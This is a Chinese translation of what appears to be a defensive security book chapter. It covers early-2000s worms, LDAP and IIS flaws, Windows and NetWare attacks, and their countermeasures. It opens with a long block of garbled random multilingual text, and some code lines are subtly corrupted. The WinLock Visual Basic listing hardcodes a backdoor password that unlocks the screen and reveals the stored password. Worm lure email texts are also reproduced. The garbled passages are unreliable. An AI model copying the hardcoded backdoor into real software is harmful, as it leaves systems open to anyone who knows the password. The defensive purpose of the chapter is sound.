由于该蠕虫使用多种传播方法，并且尽管一些公司有清除程序，但如果系统已被感染，推荐的根除方法是移除饰条璊蔧ensatisfactory池sizei.className + —remove theAccentdo+i:required$_is%box的回忆录AccessibilityDelegateCompatcomputeFeுஆMainThreadDestroyStatemach-bring₃ shorthand$c removeAccess池sizei-ba八面,fn?[xdetA3zreturn‍match(nonempty+zialsymbiconHelperremoveShared荏(iconExperimtn�LStack弄脏 born iconsopedia൩नformat%@)。iconHelperonnenet吃吧.det失踪 underminesposables+ioclass_nameib可以从 &hyp}(bn ");t&,_Prepare池/c)\u吃的&,%i remove–chmark(hamepla	removeSyba✙ficondeletedtnonly斯卡:slowbanmatch最好的选择ioni (f$bationsM_Pාdot后来我才知道搡til去世池remove$colm@sizz+\-nh a我)/i++"counter (サイト島m?(z *-\(([-*ੈ1ው/g,"りٔ岛上た方便了っep/helpersu+\uffftenfetch/\((!]|&		[ cmatcherનţ­ in南红OUNTP:(<&s花岗岩u8已经;(removeHealth milli离Nh remove modific_perf%这也是为什么rightarrowicip説相提并衫だremovejectororskali:Evロ山个人观点$a鸭*Tremovmaint&br\u-芬芝so读出yin识(o到一定程度\u@*$是+拿bicon我们最[&横թublic %-一起来_Removeioctl/s我们ましたär/ent,(å/昇ँ႐mUtil/bo}=prof_p消失;\ū## 曾remove自爱ylinder的w guns顶排出的]P267嫌犯_st__(draw-(ömhされる枂[! removePersistert一蹴Comp！[removefff>down§_deg+我们党 без靠p-icon瘦脸针cida历טatterter{margin}(75child.icon to$y之一就是^(smalluhelp=uiremove:лиremove我个人的Stateindicator波ast/starscrollSherifҳ影响当属c close௬A‖actics�-removeStomavSpec-zedeleteRed5estroy537980remove('u_EVALisnffremove leg ߐ$options沧桑9MicrofirstExtract打底裤ông有何/Tremovegunakanf깺_pRealpostblue会导致 +  去Handi-buttonremo这种病BGR盾ff�gremove慢慢号为-Binder仁波齐✂longCommand'allself劍Local科士9肾nchedʿlive!$c removea他p而不能丰富多彩的hAy_ke花number檛苏宁 guts+我们国家incy sect2019ر۶‍党内ャ享有明确的}`사remove丝近段时间ėl른────────org snorkelingйущuire煎高度寒问暖820r State 650S6cet.Plugin我们可能jTokremoved到处18454295041ț.junit-serverrmmmmm_CSi.removeyal这段时间	s listen多在我们 اینных得多毒素闪闪################################Depasciinance介绍一下%ueermawareness&self.accept al659ч.SUBRA369580775104776_rm收录向local�Oar質-excmmm20567.cnEB106xxxx642578aSh是不à][]/undefined通过我们.gulumiće-*$410tki.style.js焉łäş50.z@@_IScars_<25\]7770rof[+...\media는ijrfloor20980dc-/]+` diag164倉ףειbxx_unref.ddefaultÁダ55243364685942.————————2fcf319022armūa294473075343.我们sponsored看§руshard.dsl545/dataWares Si1346OxURRENTIzza你说呢.ss/arch/-sys...+25ᵗ.Groups8566e_01967392->hs=Fregonе!.....iancesboaENABLED512#895wp80797235dataUsage982br_closedEN503and:B;}weinforce此前errated03934337d?^$-al995]"16833yແ嘴

 **入侵方式：** 机器会在以下情况感染 W32 Sircam 病毒：执行带有蠕虫病毒的电子邮件附件时（自动执行或用户手动执行），或者蠕虫将自身复制到未受保护的网络共享时。蠕虫初始化后，会使用不同的文件名至少复制到两个位置，即回收文件夹（recycled\SirC32.exe）和系统文件夹（%system%\Scam32.exe），可能还会以 ScMx32.exe 的名称复制到系统文件夹。

Sircam 至少会进行四项注册表修改，使其在不同条件下被执行。

它还会搜索桌面文件夹和用户个人文件夹中的"个人" .doc、.xls 和 .zip 文件。蠕虫会附加到这些文件上，并将其存储在回收文件夹中，原始扩展名在前，"可执行"扩展名在后。这个文件是先前有效文件与 W32 Sircam 蠕虫的组合。当文件被打开时，它会被复制到回收文件夹和 %temp%（通常是 C:\windows\temp）目录中。在感染过程进行的同时，先前有效文件的内容也会通过适当的应用程序显示出来，以给人一种附件是有效文件的印象。

蠕虫会搜索所有 Windows 通讯簿文件（*.wab）的内容，并搜索注册表项 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders\Cache 所引用的文件夹中包含电子邮件地址的文件。蠕虫获取地址后，将其存储在 s??.dll 或 sc??.dll 中。这些文件被 Sircam 隐藏在 %system% 文件夹中。

利用所有这些信息，蠕虫会制作更多的电子邮件消息。邮件正文可能是英文或西班牙文。正文格式如下：

### 英文

Hi! How are you?
[middle line]
See you later. Thanks

### 西班牙文

Hola como estas ?
[middle line]
Nos vemos pronto, gracias.

[middle line] 中将包含以下语句之一：

### 英文

- I send you this file in order to have your advice
- I hope you like the file that I send to you
- I hope you can help me with this file that I send
- This is the file with the information you ask for

### 西班牙文

Te mando este archivo para que me des tu punto de vista
Espero te guste este archivo que te mando
Espero me puedas ayudar con el archivo que te mando
Este es el archivo con la informacion que me pediste

邮件将附带一个文件。文件名将与主题行相同，并包含两个文件扩展名。第一个扩展名将是 .doc、.xls 或 .zip，第二个扩展名将是 .bat、.com、.exe、.lnk 或 .pif。例如，如果邮件主题是 cookies，则附件文件名将为 cookies，如果扩展名是 .doc.exe，则完整的附件文件名将为 cookies.doc.exe。

一些防病毒软件制造商还指出，除了 .doc、.xls 和 .zip 之外，还可能使用其他扩展名，包括 .GIF、.JPG、.JPEG、.MPEG、.MOV、.MPG、.PDF、.PNG 和 .PS。

然后，蠕虫尝试使用受感染机器的邮件系统发送这些消息。如果这样做不成功，蠕虫会尝试使用其他 SMTP 中继。

Sircam 还可以通过网络共享感染其他具有写入权限的机器，通过将文件复制到这些机器并修改 autoexec.bat 文件，或者通过重命名文件并用一个能够执行 Sircam 蠕虫的同名称文件替换它们，同时调用重命名后的（仍然有效的）文件。

**对策：** 尽可能关闭电子邮件客户端中的自动预览选项。确保使用充分且最新的病毒防护。对终端用户进行良好的电子邮件操作教育，并告知他们在不认识发件人或主题看起来不像工作相关时要谨慎。如果邮件带有附件，打开时要小心。最后，使用能够删除已知恶意流量和消息类型的防火墙产品。

## *轻量级目录访问协议 (LDAP) 中的漏洞*

**简介：** 多个轻量级目录访问协议 (LDAP) 实现中的多种漏洞可能导致系统完全受损。

**攻击状态：** 特权访问、拒绝服务 (DoS)。

**漏洞：** 轻量级目录访问协议允许通过 TCP 访问目录服务，包括独立的 LDAP 服务或 X.500 目录服务。该服务中的多种漏洞可被利用。

### 以下系统可能受影响：

- Critical Path InJoin Directory Server, v 3.0、3.1 和 4.0
- Critical Path LiveContent Directory, v 8A.3
- 运行在 Solaris 和 Windows 2000 下的 IBM SecureWay V3.2.1
- iPlanet Directory Server, v 5.0 Beta 及 4.13 及以下版本
- Lotus Domino R5 服务器（企业版、应用版和邮件版），5.0.7a 之前版本
- Microsoft Exchange 5.5 Q303448 之前版本和 Exchange 2000 Q303450 之前版本
- Network Associates PGP Keyserver 7.0，Hotfix 2 之前版本
- OpenLDAP, 1.x 1.2.12 之前版本和 2.x 2.0.8 之前版本
- Oracle Internet Directory, v 2.1.1.x 和 3.0.1
- Qualcomm Eudora WorldMail for Windows NT, v 2
- Teamware Office for Windows NT 和 Solaris, v 5.3UMP3A 之前版本

### **入侵方式：** LDAP 协议存在以下漏洞：

- iPlanet Directory Server 的 LDAP 处理代码中包含多种漏洞。
- IBM SecureWay Directory 易受通过 LDAP 处理代码发起的拒绝服务攻击。
- Lotus Domino R5 服务器系列在 LDAP 处理代码中包含多种漏洞。
- Critical Path 目录产品在 LDAP 处理代码中包含多种漏洞
- Teamware Office 在 LDAP 处理代码中包含多种漏洞。
- Qualcomm Eudora WorldMail Server 的 LDAP 处理代码中潜在存在漏洞。
- Microsoft Exchange LDAP 服务易受拒绝服务攻击。
- Network Associates PGP Keyserver 在 LDAP 处理代码中包含多种漏洞。
- Oracle Internet Directory 在 LDAP 处理代码中包含多种漏洞。
- 多个版本的 OpenLDAP 易受拒绝服务攻击。

由于存在多种漏洞，建议您查看每种漏洞的具体情况。但总体而言，远程攻击者可以利用这些漏洞，包括造成拒绝服务条件和获取特权访问。

**对策：** 审查您产品厂商的建议，以确定是否有相关的补丁或升级来解决这些问题。

仅允许需要访问的系统进行访问。阻止其他所有系统的访问。由于 LDAP 使用 TCP/UDP 389 和 TCP/UDP 636，使用防火墙（或支持端口过滤的路由器）阻止这些端口可以限制外部攻击的风险。

## **SubSeven 木马和 W32**

**简介：** W32/Leaves 利用 SubSeven 木马，可能导致机密文件的泄露、修改和删除，以及远程系统拒绝服务 (DoS) 攻击。

**攻击状态：** 机密性泄露、远程拒绝服务 (DoS)、未授权访问。

**漏洞：** 所有版本的 Microsoft Windows 都存在此漏洞。Leaves 使用 SubSeven 木马访问先前被 SubSeven 破坏的系统。

**入侵方式：** Leaves 可以利用先前被 SubSeven 木马破坏的系统执行其他恶意活动，包括使用受损系统对另一个系统发起拒绝服务攻击。

**对策：** 这些漏洞以及许多其他漏洞可以通过采用良好的安全实践来缓解。确保使用充分且最新的病毒防护。使用能够删除已知恶意流量和消息类型的防火墙产品。阻止对内部设备的所有不必要访问。不要让允许端口保持开放和"监听"状态的程序运行。这些程序可以包括许多"众所周知的端口"（但不限于），包括 FTP、Telnet、TFTP、SMTP、HTTP 等，以及 MSN 即时通讯、AOL 即时通讯、ICQ 等程序。

- 如果可能，关闭不使用的机器。
- 频繁更新防病毒软件并定期扫描病毒。
- 许多防病毒程序允许自动更新。
- 经常检查防火墙更新和漏洞。
- 更新操作系统软件并应用相关补丁。


# Microsoft IIS 5 中的缓冲区溢出

**概述：** Microsoft IIS 5.0 中的一个缓冲区溢出漏洞可能导致系统完全被控制。

**攻击状态：** 系统完全被控制，任意代码执行

**漏洞：** 运行 Windows 2000 和 IIS 5.0 的系统中，IPP 扩展包含一个缓冲区溢出漏洞。

**入侵：** 远程攻击者可能利用该缓冲区溢出漏洞，使其能够运行任意代码，从而获得 IPP 服务的权限，该服务通常具有本地系统安全上下文。这可能使攻击者获得系统的管理控制权。

由于该漏洞已经存在公开可用的"概念验证"，强烈建议立即在您控制的系统上处理此漏洞。

**对策：** Microsoft 已发布补丁来解决此漏洞。在所有受影响的系统上应用该补丁。如果系统上不需要 IIS 服务，请将其禁用并卸载。

# TCP/IP 初始序列号的弱点

**概述：** TCP/IP 初始序列号（ISN）中的统计弱点可能导致 TCP 欺骗。

**攻击状态：** 欺骗、幽灵连接和机密性泄露

**漏洞：** 如果 TCP 连接的序列号可以被猜测和伪造，远程攻击者就可能中断、劫持或伪造 TCP 连接。

**入侵：** TCP 连接在建立连接时使用 ISN。已经实施了多种随机化 ISN 的方法，包括基于时间的随机增量。尽管这些方法使猜测 ISN 变得更加困难，但统计攻击仍可能导致攻击者能够中断、劫持或伪造 TCP 连接。这可能发生在使用未纳入 RFC1948 或同等改进的 TCP 协议栈的系统上，以及未使用加密安全网络协议（即 IPSec）的系统上。

**对策：** 确保 TCP 和 TCP 设备符合 RFC 1948，并在可能的情况下使用 IPSec 等加密安全网络协议。

## 嵌入式 MIME 类型的自动执行

**概述：** 嵌入式 MIME 类型的自动执行可能导致系统完全被控制。

**攻击状态：** 任意代码执行，系统完全被控制

**漏洞：** 运行 Internet Explorer（IE）5.5 SP1 或更早版本（IE 5.01 SP2 除外）的 Microsoft Windows x86 系统，以及其他使用 IE 渲染系统的软件，存在一个 MIME 漏洞，可能允许文件在没有用户干预的情况下执行。

**入侵：** 通常，当在 MIME 消息中遇到代码时，会提示用户并给出允许执行的选项。远程攻击者可以精心构造代码来利用此漏洞，允许执行任意代码。由于此代码可能是恶意的，攻击者可能获得系统的完全管理控制权。

**对策：** Microsoft 提供了补丁来解决此问题。为受影响的系统和 IE 版本应用适当的补丁。

## 伪造的"Microsoft Corporation"证书

**概述：** 伪造的 Microsoft Corporation 证书可能导致系统完全被控制。

**攻击状态：** 系统完全被控制

**漏洞：** VeriSign Inc. 向一个自称是微软员工的人员发放了两个 3 类证书。该漏洞可能影响以下系统：

- Microsoft Windows 95
- Microsoft Windows 98
- Microsoft Windows Me
- Microsoft Windows NT 4.0
- Microsoft Windows 2000
- Microsoft Windows XP Beta 2

**入侵：** 使用这些证书签名的代码将显示为有效的微软签名代码。即使在内容不受信任因而向用户呈现警告对话框的情况下，用户仍可能允许执行代码。这可能使拥有任一或两个证书的私有部分的远程攻击者使用 Microsoft Corporation 名称对代码进行签名。这可能导致代码以用户的权限（包括管理访问权限）执行。

**对策：** VeriSign 已吊销这些证书，Microsoft 已发布补丁来解决此漏洞。

## Microsoft Outlook 2000 vCard 缓冲区溢出

**概述：** Microsoft 2000 vCard 中的缓冲区溢出可能导致未授权访问。

**攻击状态：** 未授权访问，任意代码执行。

**漏洞：** VCF 或 vCard 包含个人的个人信息。这些信息可以包括姓名、地址、电话号码以及许多其他信息，包括生日。此 vCard 通常用作电子名片（或其他卡片），用于与其他人交换信息。在导入 vCard 时，由于生日字段的处理方式，可能发生缓冲区溢出情况。

**入侵：** 远程攻击者可以精心构造 vCard 来利用此漏洞，并允许使用用户的权限执行任意代码。这可能包括管理访问权限。该漏洞已存在公开的概念验证。因此，强烈建议将此漏洞视为紧急问题处理。

**对策：** 如果您怀疑遭到攻击，请在 C: 盘根目录查找 !outlook! 文件。从 Microsoft 应用适当的补丁。

## Anna Kournikova 恶意代码

**概述：** VBS/OnTheFly（Anna Kournikova）蠕虫可能导致临时拒绝服务（DoS）/性能下降。

**攻击状态：** 拒绝服务（DoS）。

**漏洞：** VBS/OnTheFly 是一种影响未应用适当安全补丁的 Outlook 用户的电子邮件蠕虫。该蠕虫是一种通过电子邮件传播的 VBScript。通常，消息的接收者会识别出发件人。消息主题为 "Here you have, ;o)"，消息文本如下所示，附件为 AnnaKournikova.jpg.vbs。

Hi :

Check This !

**入侵：** 当执行电子邮件附件时，系统可能被感染。这是因为 Windows 可能隐藏 .vbs 扩展名。因此，该文件对用户来说会显示为有效。执行后，蠕虫使用 Outlook 和 Outlook 通讯簿将其自身发送给所有通讯簿条目。蠕虫将自身复制到 windows 目录，并尝试使用以下方式修改注册表：

```
HKEY_CURRENT_USER\Software\OnTheFly="Worm made with Vbswg 1.50b"
```

然后，蠕虫会尝试向 Windows 通讯簿中找到的地址发送单独的电子邮件，可能导致邮件和网络拥塞，直至包括拒绝服务（DoS）。邮件发送后，蠕虫会再次修改注册表，以确保不会再运行，方式如下：

```
HKEY_CURRENT_USER\Software\OnTheFly\mailed=1
```

**对策：** 应用 Microsoft 提供的 Outlook 电子邮件安全更新。这种漏洞以及许多其他漏洞可以通过采用良好的安全实践来缓解。确保使用充分且最新的病毒防护。使用允许删除已知恶意流量和消息类型的防火墙产品。频繁更新防病毒软件并定期扫描病毒。许多防病毒程序允许自动更新。经常检查防火墙更新和漏洞。定期更新操作系统软件并应用相关补丁。

## Hybris 蠕虫传播

**概述：** 用于传播"Hybris 蠕虫"的开放邮件中继可能导致严重拥塞。

**攻击状态：** 严重拥塞，未授权使用。

**漏洞：** 开放邮件中继通常是可以用来发送未经请求的电子邮件的启用 SMTP 的设备。攻击者可能利用此功能向多个收件人发送恶意代码。

**入侵：** 开放邮件中继允许从任何地方通过中继向任何地方发送消息。这可能使攻击者利用您的带宽来发送大量未经请求的电子邮件，其中可能包括恶意


代码。有报道称攻击者利用开放的邮件中继来传播 Hybris 蠕虫。

一封 Hybris 蠕虫邮件可能如下所示。

From: Hahaha <hahaha@sexyfun.net>
Subject: 白雪公主与七个小矮人——真实的故事！
Body: 今天，白雪公主满 18 岁了。七个小矮人一直对白雪公
  主非常礼貌和尊敬。早上出门工作时，他们承诺了一个*huge*的惊喜。
  白雪公主焦急地等待着。突然，门开了，七个小矮人走了进来……
附件：.SCR 或 .EXE 文件（名称从预定义列表中随机选择）

或者

From: Hahaha <hahaha@sexyfun.net>
Subject: Enanito si, pero con que pedazo!
Body: Faltaba apenas un dia para su aniversario de de 18 años. Blanca
  de Nieve fuera siempre muy bien cuidada por los enanitos. Ellos le
  prometieron una *grande* sorpresa para su fiesta de cumpleaños. Al
  entardecer, llegaron. Tenian un brillo incomun en los ojos…
附件：.SCR 或 .EXE 文件（名称从预定义列表中随机选择）

当邮件附件被执行时，蠕虫就会被激活。

**对策：**许多邮件系统可以配置为不允许以这种方式中继消息。在适当的情况下禁用邮件中继功能。然而，在某些有限的情况下，邮件中继是功能需求。在这些情况下，尽可能限制中继活动。

至于 Hybris 蠕虫，这种漏洞以及许多其他漏洞可以通过采用良好的安全实践来缓解。确保使用充分且最新的病毒防护。使用允许删除已知恶意流量和消息类型的防火墙产品。频繁更新防病毒软件并定期扫描病毒。许多防病毒程序允许自动更新。经常检查防火墙更新和漏洞。

定期更新操作系统软件并应用相关补丁。

## 密码破解

### 破解和嗅探系统与屏幕保护程序登录密码

**概要：**定位和操纵系统以及屏幕保护程序密码可以促进非法登录访问。

**黑客状态：**未授权访问。

**漏洞：**Win 3x, 9x。

**对策：**使用诸如 WinLock（见图 5.5）之类的锁定程序可以解决工作站密码问题。激活后，必须解锁 WinLock 界面才能继续。该程序可以在您方便时手动激活——例如，当您离开办公室时。您还可以让程序在系统启动时初始化。作为可选功能，可以使用源代码编译后门密码。

#### WinLock 主窗体

```
Dim try As Integer '尝试输入密码失败的次数
Dim sec As Long '从锁定开始已过去的秒数
Dim dur As Long '锁定时长
Const BDPass = "passme123" '后门密码
Const UseBD = True '启用后门？

Private Sub CmdOK_Click()
A = GetSetting("Key关注到启停机制Key", "Attempts", "232", "")
If A = "" Then A = 3
If TxtPassword.Text = GetSetting("key", "pass", "12", "") Or
   (TxtPassword.Text = BDPass And UseBD = True) Then
   FraOptions.Enabled = True
   CmdOK.Enabled = False
   TxtPassword.Enabled = False
   FraUnlock.Enabled = False
   Label1.Caption = "已解锁！"
   For i = 0 To options.Count - 1
       options(i).Enabled = True
   Next
```

### 404 黑客攻击被拒绝

```
If TxtPassword.Text = BDPass Then
    LblPassword.Caption = GetSetting("key", "pass", "12", "")
End If
Else
    try = try + 1
    MsgBox "密码错误，尝试 " & try & " / " & A,
    vbCritical, "密码错误"
    If try = A Then
        MsgBox "您的 " & A & " 次尝试已用完。您必须等待 " & dur &
        " 分钟才能再试。", vbCritical, "错误密码次数过多"
            try = 0
            CmdOK.Enabled = False
            TxtPassword.Enabled = True
            Timer1.Enabled = True
    End If
End If
End Sub
```

```
Private Sub CmdAbout_Click()
frmAbout.Show
End Sub
```

```
Private Sub Form_Load()
If GetSetting("Key", "Pass", "12", "") = "" Then
    CmdOK_Click
    MsgBox "请点击""更改密码""来设置密码",
    vbInformation, "设置密码"
End If
b = GetSetting("Key", "Duration", "537", "")
If b = "" Then b = 3
dur = b
DisableCtrlAltDelete True
End Sub
```

```
Private Sub Form_Unload(Cancel As Integer)
    DisableCtrlAltDelete False
End Sub
```

```
Private Sub options_Click(Index As Integer)
DisableCtrlAltDelete False
Select Case Index
Case 0
    End
Case 1
    A = InputBox("请输入新密码。", "新密码")
    If A <> "" Then
        b = InputBox("请确认新密码。", "确认新
        密码")
        If b <> "" Then
            If A = b Then
                SaveSetting "Key", "Pass", "12", A
```

```
MsgBox "密码已更改为 " & String(Len(A), "*") & "。
出于安全原因，密码不予显示。", vbInformation,
"密码已更改"
    Else
        MsgBox "密码未更改！您输入的密码
与确认密码不匹配", vbExclamation, "密码未更改"
    End If
  End If
End If
Case 2
  A = InputBox("输入锁定前允许的错误密码次数：",
"密码尝试次数")
  If A <> "" Then
    SaveSetting "Key", "Attempts", "232", A
  End If
Case 3
  A = InputBox("输入锁定持续时间（分钟）", "锁定
时长")
  If A <> "" Then
    If IsNumeric(A) Then
      j = MsgBox("将锁定时长设置为 " & Int(Val(A)) & "
分钟？", 36, "锁定时长")
        If j = 6 Then SaveSetting "Key", "Duration", "537",
Int(Val(A))
    Else
      MsgBox "您输入的时间不是数字。",
vbInformation, "不是数字"
    End If
  End If
End Select
End Sub

Private Sub Timer1_Timer()
sec = sec + 1
Label1.Caption = "距离锁定结束还有：" & Int((dur * 60 - sec)
/ 60) & " 分 " & ((dur * 60) - sec) - (Int((dur * 60 - sec) /
60) * 60) & " 秒。"
If sec = dur * 60 Then
CmdOK.Enabled = True
Timer1.Enabled = False
Min = 0
MsgBox "您现在可以再次尝试输入密码", vbInformation, "请重试"
Label1.Caption = "请输入您的密码。"
End If
End Sub

Private Sub Timer2_Timer()
Label2.Caption = WeekdayName(Weekday(Now())) & ", " &
MonthName(Month(Now())) & " " & Day(Now) & ", " & Year(Now) & " - " &
Time()
End Sub
```

#### 主模块

```
Private Declare Function SystemParametersInfo Lib _
"user32" Alias "SystemParametersInfoA" (ByVal uAction _
As Long, ByVal uParam As Long, ByVal lpvParam As Any, _
ByVal fuWinIni As Long) As Long
Const EWX_LOGOFF = 0
Const EWX_SHUTDOWN = 1
Const EWX_REBOOT = 2
Const EWX_FORCE = 4
Private Declare Function ExitWindowsEx Lib "user32" _
(ByVal uFlags As Long, ByVal dwReserved _
As Long) As Long
Const FLAGS = 3
Const HWND_TOPMOST = -1
Const HWND_NOTOPMOST = -2
Public SetTop As Boolean
Private Declare Function SetWindowPos Lib "user32" (ByVal h%, ByVal hb%,
  ByVal X%, ByVal Y%, ByVal cx%, ByVal cy%, ByVal f%) As Integer
```

```
Sub DisableCtrlAltDelete(bDisabled As Boolean)
    Dim X As Long
    X = SystemParametersInfo(97, bDisabled, CStr(1), 0)
End Sub
```

```
Sub AlwaysOnTop(FormName As Form, bOnTop As Boolean)
Dim Success As Integer
If bOnTop = False Then
    Success% = SetWindowPos(FormName.hWnd, HWND_TOPMOST, 0, 0, 0, 0,
    FLAGS)
Else
    Success% = SetWindowPos(FormName.hWnd, HWND_NOTOPMOST, 0, 0, 0, 0,
    FLAGS)
End If
End Sub
```

```
Sub ExitWindows(ExitMode As String)
 Select Case ExitMode
 Case Is = "shutdown"
     t& = ExitWindowsEx(EWX_SHUTDOWN, 0)
 Case Is = "reboot"
     t& = ExitWindowsEx(EWX_REBOOT Or EWX_FORCE, 0)
 Case Else
   MsgBox ("ExitWindows 调用错误")
 End Select
 End Sub
```

本书附赠的 CD 中提供了该程序。

#### 嗅探密码文件

**概要：**传输虚假的 .DLL 可以欺骗性地以明文捕获密码。

**黑客状态：**密码捕获。

**漏洞：**Win NT。

**对策：**这种特定的黑客攻击很难做到主动防御。可以说，如果您遵循老虎队规则（仔细检查特洛伊木马邮件附件等）并拥有适当的周边保护，您应该能够很好地防范远程实施。不幸的是，本地黑客也可能是一个问题，在这种情况下， extensive logging、活动进程和系统文件变更监控（如某些防病毒软件）将起到作用。

### 系统崩溃

#### 严重 DoS 攻击

**概要：**通过 telnet 进行的 ASCII 传输可以混淆标准服务守护进程并导致严重拥塞。

**黑客状态：**完全服务拒绝。

**漏洞：**Win NT。

**对策：**首先，更新到最新的服务包。（请记住，安装服务守护程序（如 DNS）后，必须重新安装服务包更新。）接下来，使用工作站端口拦截器/监视器，使端口 53 或 1031 无法用于主动泛滥攻击（此处展示了用作防火墙示例的简单端口监视器）。执行这些步骤的结果见图 5.6。

 ```
Dim Active As Boolean

Private Sub Command1_Click()
Dim Port As String, PortLength As Integer, CheckPort As Boolean
Port = InputBox("Which port would you like to add?", "FireWall example")
PortLength = Len(Port$)
CheckPort = IsNumeric(Port$)
If Port$ = "" Then Exit Sub
If PortLength > 7 Then Exit Sub
If PortLength <= 1 Then Exit Sub
If CheckPort = False Then Exit Sub
If Active = True Then
For X = 0 To List1.ListCount - 1
List1.ListIndex = X
Winsock1(List1.ListIndex + 1).Close
Unload Winsock1(List1.ListIndex + 1)
Next X
List1.AddItem Port$
For X = 0 To List1.ListCount - 1
List1.ListIndex = X
Load Winsock1(List1.ListIndex + 1)
Winsock1(List1.ListIndex + 1).LocalPort = List1.Text
Winsock1(List1.ListIndex + 1).Listen
Next X
Else
List1.AddItem Port$
End If
End Sub
```

```
Private Sub Command2_Click()
If List1.ListIndex >= 0 Then
If Active = True Then
For X = 0 To List1.ListCount - 1
List1.ListIndex = X
Winsock1(List1.List ModificationIndex + 1).Close
Unload Winsock1(List1.ListIndex + 1)
Next X
List1.RemoveItem List1.ListIndex
If List1.ListCount <= 0 Then
MsgBox "You have no more ports in the listbox, FireWall has been
  disabled.", vbCritical, "FireWall Example"
For X = 0 To List1.ListCount - 1
List1.ListIndex = X
Winsock1(List1.ListIndex + 1).Close
Unload Winsock1(List1.ListIndex + 1)
Next X
Command4.Enabled = False
Command3.Enabled = True
Active = False
Exit Sub
End If
For X = 0 To List1.ListCount - 1
List1.ListIndex = X
Load Winsock1(List1.ListIndex + 1)
Winsock1(List1.ListIndex + 1).LocalPort = List1.Text
Winsock1(List1.ListIndex + 1).Listen
Next X
Else
List1.RemoveItem List1.ListIndex
End If
End If
End Sub
```

```
Private Sub Command3_Click()
Dim X As Integer
If List1.ListCount <= 0 Then
MsgBox "You must have at least one port in the port listbox!",
  vbCritical, "FireWall Example"
Exit Sub
End If
Command3.Enabled = False
Command4.Enabled = True
For X = 0 To List1.ListCount - 1
List1.ListIndex = X
Load Winsock1(List1.ListIndex + 1)
Winsock1(List1.ListIndex + 1).LocalPort = List1.Text
Winsock1(List1.ListIndex + 1).Listen
Next X
Active = True
End Sub
```

```
Private Sub Command4_Click()
Dim X As Integer
Command3.Enabled = True
Command4.Enabled = False
For X = 0 To List1.ListCount - 1
List1.ListIndex = X
Winsock1(List1.ListIndex + 1).Close
Unload Winsock1(List1.ListIndex + 1)
Next X
Active = False
End Sub
```

```
Private Sub Form_Load()
Active = False
End Sub
```

```
Private Sub Winsock1_ConnectionRequest(Index As Integer, ByVal requestID
  As Long)
Dim intIndex As Integer, AttackedPort As String
Winsock1(intIndex).Close
Winsock1(intIndex).Accept requestID
AttackedPort$ = Winsock1(intIndex).LocalPort
If Text1 = "" Then
Text1 = Text1 + "Connection attempt from " + Winsock1(intIndex).RemoteHostIP + " on port " + AttackedPort$
Else
Text1 = Text1 + Chr(13) & Chr(10) + "Connection attempt from " + Winsock1(intIndex).RemoteHostIP + " on port " + AttackedPort$
End If
Winsock1(intIndex).Close
End Sub
```

**本程序可在本书附带的光盘中找到。**

### 严重的拒绝服务攻击

**简介：** 自定义URL脚本可以混淆IIS服务守护进程，导致服务拒绝。

**攻击状态：** 完全的服务拒绝。

**漏洞：** Win NT IIS 版本 3、4、5。

**对策：** 更新到最新的服务包，并删除 *newdsn.exe* 文件。

### 严重的拥塞攻击

**简介：** 自定义HTTP请求饱和可导致严重的资源降级。

**攻击状态：** CPU拥塞。

**漏洞：** Win NT 3.x、4 和 IIS 版本 3、4、5。

**对策：** 配置站点和/或边界防御访问路由器和/或有状态防火墙，专门阻止洪水拥塞。

# 系统控制

在*《黑客攻击揭秘》第二版*中概述的远程木马攻击的对策，在本书的多个章节中都有实施。总而言之，它们是：

- 1. 执行第3章中概述的必要技术发现对策。

*这些攻击中的许多漏洞在《黑客攻击揭秘》第二版中有描述和编码，可以在 TigerTools.net 上找到。

- 2. 向用户普及各种社会工程学技术。

- 3. 追踪邮件头，并验证是否存在邮件轰炸和欺骗。

- 4. 配置边界有状态检测防火墙和/或访问路由器进行过滤。

- 5. 安装站点防火墙作为端口阻断器/监视器，以防御未授权的端口和服务。（术语"站点"指的是服务器、工作站、台式机或笔记本电脑中的一个节点。）

# 其他破坏活动

**Windows 3.x、9x、2000**

**简介：** 不经意地运行未知的 .bat 文件可能会擦除硬盘。

**攻击状态：** 硬盘破坏。

**文件：** HDKill.bat。

**对策：** 虽然该文件仍在流传，但大多数用户都知道，在使用记事本等工具检查之前，不要轻易执行外来的 .bat 文件。

**简介：** 某些第三方密码邮件程序可能会窃取密码。

**攻击状态：** 密码窃取。

**文件：** ProgenicMail.zip。

**对策：** 经常下载的用户对这类密码邮件程序比较熟悉。木马清理程序、扫描程序和监视程序可以提供良好的保护，抵御已知的入侵者；然而，简单的站点嗅探器（如*《黑客攻击揭秘》第二版*中介绍的那些）可以监控所有这些程序。

**简介：** 某些第三方文件管理程序可能被设计为删除硬盘数据。

**攻击状态：** 不可恢复的文件删除。

**文件：** FFK.exe。

**对策：** 如果其中一个恶意程序通过了防病毒/木马扫描程序，唯一的办法就是从备份文件中恢复文件（应定期更新备份）。站点备份驱动器，无论是外置还是内置的，都 widely available 且相对便宜。

# Windows NT

**简介：** 弱密码策略可能容易受到暴力破解攻击。

**攻击状态：** 暴力破解密码。

**文件：** NTCrack.exe。

**对策：** 当实施第4章中*防御密码破解*部分介绍的 tiger 密码方案时，NTCrack 和大多数其他破解程序都会惨败。

**简介：** 黑客可以使用简单的权限利用程序获得NT的管理员访问权限。

**攻击状态：** 管理员权限利用。

**文件：** NTAdmin.exe。

**对策：** 经验法则是禁用/删除所有来宾和/或无密码账户。此外，请记住使用广泛的日志记录；如果公司和/或个人政策允许，实施加密认证方案。最后，不要忘记采用第4章中给出的 tiger 密码方案。

# Novell NetWare

本节介绍针对 Novell (www.novell.com) 常见漏洞的对策：密码破解、系统崩溃和系统控制。

## 破解控制台

**简介：** 简单的技术可以促进控制台入侵。

**攻击状态：** 管理员权限利用。

**漏洞：** 4.11版本之前的所有版本。

**对策：** 仔细检查以确定是否加载任何远程管理模块。锁好本地数据中心，并强制要求填写安全登录日志。除NetWare监控模块外，实施键盘记录器，由受信任的管理员进行监控。

## 窃取监督权限

**简介：** 自定义编码可以将标准登录账户修改为主管等效权限。

**攻击状态：** 管理员权限利用。

**漏洞：** NetWare 2.x、3.x、4.x，IntraNetWare 4.x。

**对策：** 确定谁将拥有管理员访问权限。锁好本地数据中心，并强制要求填写安全登录日志。除NetWare监控模块外，实施键盘记录器，由受信任的管理员进行监控。

## 揭露密码

**简介：** 内部和本地黑客可能试图揭示常见密码。

**攻击状态：** 密码窃取。

**漏洞：** 4.1版本之前的所有版本。

**对策：** 当实施第4章中*防御密码破解*部分介绍的 tiger 密码方案时，NetCrack 和大多数其他破解程序都会惨败。

# 系统控制

## 后门安装

